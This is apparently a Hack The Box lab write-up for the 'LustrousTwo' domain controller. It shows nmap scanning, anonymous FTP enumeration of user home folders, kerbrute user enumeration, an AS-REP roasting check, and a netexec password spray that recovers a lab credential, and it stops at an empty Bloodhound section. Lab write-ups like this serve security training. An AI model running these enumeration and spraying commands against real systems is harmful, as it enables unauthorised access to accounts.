


## Nmap

This is clearly a domain controller, but it has some other services also installed like ftp and a web server on port 80.

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/LustrousTwo]
└─$ nmap -sC -sV -T4 -oA reports/nmap_report 10.129.234.58
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-05 03:50 EDT
Nmap scan report for 10.129.234.58
Host is up (0.32s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-06-24  05:20AM       <DIR>          Development
| 04-14-25  04:44AM       <DIR>          Homes
| 08-31-24  01:57AM       <DIR>          HR
| 08-31-24  01:57AM       <DIR>          IT
| 04-14-25  04:44AM       <DIR>          ITSEC
| 08-31-24  01:58AM       <DIR>          Production
|_08-31-24  01:58AM       <DIR>          SEC
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Negotiate
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-05 07:51:16Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-08-05T07:39:51
|_Not valid after:  2026-08-05T07:39:51
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-08-05T07:39:51
|_Not valid after:  2026-08-05T07:39:51
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-08-05T07:39:51
|_Not valid after:  2026-08-05T07:39:51
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-08-05T07:39:51
|_Not valid after:  2026-08-05T07:39:51
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Not valid before: 2025-04-13T09:50:31
|_Not valid after:  2025-10-13T09:50:31
|_ssl-date: 2025-08-05T07:52:41+00:00; +18s from scanner time.
Service Info: Host: LUS2DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-05T07:52:04
|_  start_date: N/A
|_clock-skew: mean: 17s, deviation: 0s, median: 16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.76 seconds
```

## FTP

Anonymous login to the ftp server is allowed, so I can connect to it using the following command:

```shell
ftp ftp://anonymous:''@10.129.234.58
```

There are several interesting folders found:

```shell
ftp> ls
229 Entering Extended Passive Mode (|||50322|)
125 Data connection already open; Transfer starting.
09-06-24  05:20AM       <DIR>          Development
04-14-25  04:44AM       <DIR>          Homes
08-31-24  01:57AM       <DIR>          HR
08-31-24  01:57AM       <DIR>          IT
04-14-25  04:44AM       <DIR>          ITSEC
08-31-24  01:58AM       <DIR>          Production
08-31-24  01:58AM       <DIR>          SEC
```

Inside the `Homes` folder, we can find folders for users. This is a valuable information as now we have got the usernames.

```
ftp> cd Homes
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||50331|)
125 Data connection already open; Transfer starting.
09-07-24  12:03AM       <DIR>          Aaron.Norman
09-07-24  12:03AM       <DIR>          Adam.Barnes
09-07-24  12:03AM       <DIR>          Amber.Ward
09-07-24  12:03AM       <DIR>          Andrea.Smith
09-07-24  12:03AM       <DIR>          Ann.Lynch
09-07-24  12:03AM       <DIR>          Callum.Oliver
09-07-24  12:03AM       <DIR>          Carly.Walker
09-07-24  12:03AM       <DIR>          Chelsea.Smith
09-07-24  12:03AM       <DIR>          Chloe.Hammond
09-07-24  12:03AM       <DIR>          Christopher.Lawson
09-07-24  12:03AM       <DIR>          Claire.Parry
09-07-24  12:03AM       <DIR>          Darren.Lewis
09-07-24  12:03AM       <DIR>          Deborah.Jones
09-07-24  12:03AM       <DIR>          Dominic.West
09-07-24  12:03AM       <DIR>          Duncan.Smith
09-07-24  12:03AM       <DIR>          Elaine.Gallagher
09-07-24  12:03AM       <DIR>          Eleanor.Gregory
09-07-24  12:03AM       <DIR>          Emma.Bell
09-07-24  12:03AM       <DIR>          Francesca.Norman
09-07-24  12:03AM       <DIR>          Gary.Richards
09-07-24  12:03AM       <DIR>          Gerard.Ward
09-07-24  12:03AM       <DIR>          Glenn.Williams
09-07-24  12:03AM       <DIR>          Graeme.Pritchard
09-07-24  12:03AM       <DIR>          Harriet.Richardson
09-07-24  12:03AM       <DIR>          Henry.Connor
09-07-24  12:03AM       <DIR>          Howard.Robinson
09-07-24  12:03AM       <DIR>          Jacqueline.Phillips
09-07-24  12:03AM       <DIR>          Janice.Collier
09-07-24  12:03AM       <DIR>          Jasmine.Johnson
09-07-24  12:03AM       <DIR>          Joan.Wall
09-07-24  12:03AM       <DIR>          Judith.Francis
09-07-24  12:03AM       <DIR>          Justin.Williams
09-07-24  12:03AM       <DIR>          Kyle.Hussain
09-07-24  12:03AM       <DIR>          Kyle.Lloyd
09-07-24  12:03AM       <DIR>          Lawrence.Bryan
09-07-24  12:03AM       <DIR>          Leah.Elliott
09-07-24  12:03AM       <DIR>          Lewis.Khan
09-07-24  12:03AM       <DIR>          Liam.Wheeler
09-07-24  12:03AM       <DIR>          Lisa.Begum
09-07-24  12:03AM       <DIR>          Louis.Phillips
09-07-24  12:03AM       <DIR>          Lydia.Parker
09-07-24  12:03AM       <DIR>          Malcolm.Yates
09-07-24  12:03AM       <DIR>          Marie.Hill
09-07-24  12:03AM       <DIR>          Martin.Hamilton
09-07-24  12:03AM       <DIR>          Mathew.Roberts
09-07-24  12:03AM       <DIR>          Melissa.Thompson
09-07-24  12:03AM       <DIR>          Nathan.Carter
09-07-24  12:03AM       <DIR>          Nicola.Clarke
09-07-24  12:03AM       <DIR>          Nicola.Hall
09-07-24  12:03AM       <DIR>          Nigel.Lee
09-07-24  12:03AM       <DIR>          Pamela.Taylor
09-07-24  12:03AM       <DIR>          Robert.Russell
09-07-24  12:03AM       <DIR>          Ryan.Davies
09-07-24  12:03AM       <DIR>          Ryan.Moore
09-07-24  12:03AM       <DIR>          Ryan.Rowe
09-07-24  12:03AM       <DIR>          Samantha.Smith
09-07-24  12:03AM       <DIR>          Sara.Matthews
09-07-24  12:03AM       <DIR>          ShareSvc
09-07-24  12:03AM       <DIR>          Sharon.Birch
09-07-24  12:03AM       <DIR>          Sharon.Evans
09-07-24  12:03AM       <DIR>          Stacey.Barber
09-07-24  12:03AM       <DIR>          Stacey.Griffiths
09-07-24  12:03AM       <DIR>          Stephanie.Baxter
09-07-24  12:03AM       <DIR>          Stephanie.Davies
09-07-24  12:03AM       <DIR>          Steven.Sutton
09-07-24  12:03AM       <DIR>          Susan.Johnson
09-07-24  12:03AM       <DIR>          Terence.Jordan
09-07-24  12:03AM       <DIR>          Thomas.Myers
09-07-24  12:03AM       <DIR>          Tony.Davies
09-07-24  12:03AM       <DIR>          Victoria.Williams
09-07-24  12:03AM       <DIR>          Wayne.Taylor
226 Transfer complete.

```

and inside the `ITSEC` folder, there is a file called `audit_draft.txt`. its content are as follows:

```
Audit Report Issue Tracking

[Fixed] NTLM Authentication Allowed
[Fixed] Signing & Channel Binding Not Enabled
[Fixed] Kerberoastable Accounts
[Fixed] SeImpersonate Enabled

[Open] Weak User Passwords
```

It suggests that some users are using weak passwords.


Using `kerbrute`, we can confirm that these are valid users in the domain:

```shell
kerbrute userenum -t 200 --dc 10.129.234.58 -d Lustrous2.vl usernames  -o existent_users
```



Next, I tried `impacket-GetNPUsers` to see if there are any users with kerberos pre-authentication disabled, but there are not.

```shell
impacket-GetNPUsers Lustrous2.vl/ -usersfile usernames -dc-ip 10.129.234.58
```




## Password Spraying

We sprayed the password `Lustrous2024` against all the usernames using `netexec` and found a valid username and password.

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/LustrousTwo]
└─$ netexec smb LUS2DC.Lustrous2.vl -u usernames -p 'Lustrous2024' -k --continue-on-success
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           [*]  x64 (name:LUS2DC) (domain:Lustrous2.vl) (signing:True) (SMBv1:False) (NTLM:False)
<snip>
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           [+] Lustrous2.vl\Thomas.Myers:Lustrous2024 
<snip>
```

## SMB

No interesting shares were found:

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/LustrousTwo]
└─$ netexec smb LUS2DC.Lustrous2.vl -u Thomas.Myers -p 'Lustrous2024' -k --shares
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           [*]  x64 (name:LUS2DC) (domain:Lustrous2.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           [+] Lustrous2.vl\Thomas.Myers:Lustrous2024 
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           [*] Enumerated shares
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           Share           Permissions     Remark
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           -----           -----------     ------
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           ADMIN$                          Remote Admin
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           C$                              Default share
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           IPC$            READ            Remote IPC
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           NETLOGON        READ            Logon server share 
SMB         LUS2DC.Lustrous2.vl 445    LUS2DC           SYSVOL          READ            Logon server share 
```

## Bloodhound

```shell

```

lus2dc.Lustrous2.vl